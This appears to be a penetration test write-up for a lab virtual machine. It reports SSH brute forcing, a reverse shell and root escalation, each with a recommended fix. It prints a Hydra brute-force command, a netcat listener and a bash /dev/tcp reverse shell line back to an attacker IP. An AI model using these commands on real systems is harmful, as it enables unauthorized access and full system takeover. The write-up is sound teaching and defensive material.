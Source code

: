 * Enumeration: Identified the target's IP address and performed port scanning and service enumeration.
* Exploitation: Utilized discovered vulnerabilities to gain unauthorized access.
* Post-Exploitation: Conducted privilege escalation and assessed the impact.

Findings and Exploits

1. Brute Force Authentication (Severity: High)

* Description: The SSH service on the target VM was vulnerable to brute force attacks due to weak passwords.
* Proof of Concept: Used Hydra to brute force the SSH credentials.

hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://[target IP]

* Impact: Unauthorized access to the target system.
* Recommendation: Implement strong password policies and account lockout mechanisms.

2. Shell Connectivity (Severity: Critical)

* Description: Gained shell access through a reverse shell technique.
* Proof of Concept: Set up a listener on Kali using Netcat and triggered a reverse shell from the target.
* Listener command:

nc -lvnp 4444

* Target command:

bash -i >& /dev/tcp/[Kali IP]/4444 0>&1

* Impact: Full shell access obtained, allowing for further exploitation.
* Recommendation: Sanitize inputs on all services to prevent command injection attacks.

3. Privilege Escalation (Severity: Critical)

* Description: Escalated privileges to root using a known vulnerability.
* Proof of Concept: Utilized LinPEAS to identify misconfigurations and exploited them.

Copy code

./linpeas.sh

* Impact: Achieved root access, compromising the entire system.
* Recommendation: Regularly update and patch systems. Use tools like LinPEAS for internal audits.

Conclusion

The penetration test revealed significant vulnerabilities in the target VM, underscoring the importance of regular security assessments, strong password policies, and timely system updates. Addressing these vulnerabilities is crucial to strengthening the system's security posture against real-world attacks.

